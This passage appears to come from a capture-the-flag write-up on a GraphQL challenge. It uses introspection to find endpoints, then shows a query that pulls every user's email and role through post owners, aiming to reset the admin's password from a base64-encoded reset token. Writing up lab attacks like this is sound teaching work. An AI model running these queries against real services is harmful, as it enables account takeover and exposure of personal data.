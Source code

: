 ``` graphql
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}

```

introspection leaves us with a lot of interesting endpoints to test.

getallposts, resetPassword, requestPasswordReset and viewerToken:
getallposts returns a list of posts , which has a owner field that can be used to know emails and roles of different users.
```graphql
type Post {
    id: ID!
    title: String!
    content: String!
    owner: User!
    imageUrl: String!
}
type User {
    id: ID!
    username: String!
    Posts: [Post!]!
    email: String!
    role: String!
}
```
we can then use this query to get arbitrary user emails and roles:
``` graphql
query GetAllPosts {
    getallposts {
        id
        owner {
            id
            username
            email
            role
        }
    }
}
```
our goal here is to reset the admin's password,we already have his email, but we need the token still.
if we make a request to reset our password and view our token,using the viewerToken query, it will look smth like this:
MjUwNzE3MTUyMjhBeEtocmVMMnZLa2dJSHI=
which when base64 decoded will give us the token:
25071715228AxKhreL2vKkgIHr
